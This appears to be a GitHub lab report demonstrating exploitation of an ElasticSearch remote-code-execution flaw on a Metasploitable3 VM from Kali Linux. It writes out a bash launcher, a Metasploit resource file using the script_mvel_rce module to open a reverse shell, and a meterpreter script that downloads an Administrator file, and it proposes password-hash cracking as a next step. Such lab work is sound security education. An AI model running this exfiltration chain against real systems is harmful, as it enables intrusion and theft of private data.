 # Cybersecurity
## Cybersecurity demo - ElasticSearch exploit

### Summary

[Introduction](#Introduction)<br>
[Threat model](#Threat-model)<br>
[Setup](#Setup)<br>
[Execution](#Execution)<br>
[Results](#Results)<br>
[Conclusions](#Conclusions)<br>
[Further developments](#Further-developments)<br>
[Sources](#Sources)<br>

### Introduction

This report describes the exploitation of an ElasticSearch [1](#Sources)
vulnerability present on a victim's machine using an attacking machine able to execute the exploit.


### Threat model

The threat model entails an attacker already inside the private network of the victim and able to establish a connection to
the victim's machine. As an hypothesis, the attacker is interested in downloading the contents of a file managed by the
victim's machine Administrator; disruption of operation is not paramount in this threat model, as the attacker is envisioned
as trying to acquire proprietary knowledge without alerting the legitimate owner in order to sell it to a potential buyer.


### Setup

metasploitable3-workspace_win2k8_1742132564644_45096 [2] Virtual Machine (VM) as the victim's machine.

kali-linux-2024.4-virtualbox-amd64 [3] VM as the attacker's machine.

The attacker's machine is tasked with automatically running a series of scripts containing all the information
necessary to exfiltrate the file from the victim's machine; the attack uses exploit/multi/elasticsearch/script_mvel_rce [4]
to gain access to the victim's machine file system.


### Execution

The victim machine is on during the execution of the exploit with user 'vagrant' as the authenticated user.

All files involved in the execution of the exploit are made executable by other processes with chmod +rx <name>.<extension>

The attacker launches the "exfiltration.sh" bash script from the /home/kali directory of the attacker's machine.


# exfiltration.sh

#!/bin/bash

cd ~
msfconsole -q -r ./exfiltration.rc


"exfiltration.sh" is tasked with launching msfconsole with "exfiltration.rc" as the resource file to be loaded at startup.


# exfiltration.rc

use exploit/multi/elasticsearch/script_mvel_rce
set rhosts 10.0.2.15
set AutoRunScript ./meterpreter_exploit.rc
run
exit


"exfiltration.rc" is tasked with feeding msf6 console with the exploit setup and the victim machine private IPv4 address;
it then sets a third file, "meterpreter_exploit.rc" as an automated list of commands to be executed at the establisment of
a reverse TCP shell.


# meterpreter_exploit.rc

cd ..
cd ..
cd Users
cd Administrator
download important.txt


"meterpreter_exploit.rc" contains the instructions to access the Administrator's directory and download the "important.txt"
file.

The attacker can then perform further actions; when satisfied, the connection is closed by entering "quit" in the meterpreter
terminal. Finally, the execution completes with the final "exit" instruction present in "exfiltration.rc".


### Results

At the end of execution, the file "important.txt" is successfully downloaded to the attacker's machine inside the
/home/kali directory.


### Conclusions

This experiment has proven that a vulnerability allowing for Remote Code Execution (RCE) in textual input is sufficient
to gain control of the victim's machine. 


### Further developments

This demo can be further expanded by allowing for a dynamic choice of the victim's machine and the execution of a more powerful
exploit to gain access to the Administrator's hashed password, using an instrument like "John the Ripper" to infere the password
from the hash and gain access to the Administrator's account.


### Sources

[1] https://it.wikipedia.org/wiki/Elasticsearch

[2] https://github.com/rapid7/metasploitable3

[3] https://www.kali.org/docs/virtualization/import-premade-virtualbox/

[4] https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/elasticsearch/script_mvel_rce.rb

[5] https://www.openwall.com/john/
